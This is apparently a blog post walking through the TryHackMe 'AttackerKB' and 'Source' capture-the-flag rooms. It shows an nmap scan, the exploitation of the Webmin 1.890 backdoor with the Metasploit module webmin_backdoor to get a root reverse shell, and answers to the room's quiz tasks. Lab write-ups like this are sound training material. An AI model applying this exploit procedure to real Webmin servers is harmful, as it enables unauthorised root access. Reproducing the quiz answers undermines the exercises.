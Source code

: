 ```yaml
---
layout: post
title: Hello World
categories: hello
author: ThelastVvV
date: 2020-03-11 18:42:53 +0800
tags: [test, hello]
---
```


[|IMG|](https://1.bp.blogspot.com/-qrjDLPQGjpg/Xw2M5Gp32OI/AAAAAAAAAM0/ktLIhodQNwQXPCSbvjDj3JE1-QNQzntQgCLcBGAsYHQ/s640/bloggg.jpg)Hallå gubbar , Today i will show you how easy this boxes&nbsp;are in a very simple explanation both [AttackerKB](https://tryhackme.com/room/attackerkb) &amp;&nbsp; [Source](https://tryhackme.com/room/source)&nbsp;1 - Enumeration2 - Exploitation3- Reverse shell4-AttackerKB Tasks1 - Enumerationnmap scan :>nmap -T4 -A -v -Pn Box-ipResults:>PORT      STATE SERVICE VERSION22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)| ssh-hostkey:&nbsp;|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)10000/tcp open  http    MiniServ 1.890 (Webmin httpd)2 - ExploitationSource and AttackerKB:One of the attached files of vulnerability is metasploit module that will allow us reverse shell the box so let open Metasploit[https://github.com/rapid7/metasploit-framework/pull/12219](https://www.blogger.com/#)using this command:>msfconsolethen search "the exploit name or version"[|IMG|](https://www.blogger.com/#)then choose unix/webapp/webmin_backdoor[|IMG|](https://www.blogger.com/#)>RHOSTS : Box-ipRPORT: Box-portLHOST: Your-ipSSL : 13- Reverse shell[|IMG|](https://www.blogger.com/#)volia session opened  we are root so let check the hints and hunt the flagsUser Flag:[|IMG|](https://www.blogger.com/#)Root Flag:[|IMG|](https://www.blogger.com/#)4-AttackerKB Tasks:Task 2 -Discovering the Lay of the Land :From Nmap results we can find all our  answers .....Answers:&nbsp;>#2-Webmin#3-1.890#4- from cert bellow figure it out&nbsp;[|IMG|](https://www.blogger.com/#)Task 3 - learning to fly:&nbsp;Just explore Attackerkb then we will be able to answer the following "important to copy directly from [Attackerkb site](https://attackerkb.com/)&nbsp;Answers:&nbsp;>#3 1.890&nbsp;#4 supply chain&nbsp;#5 aug172019&nbsp;#6 githubfileinthetitleSee you next time .....&nbsp;
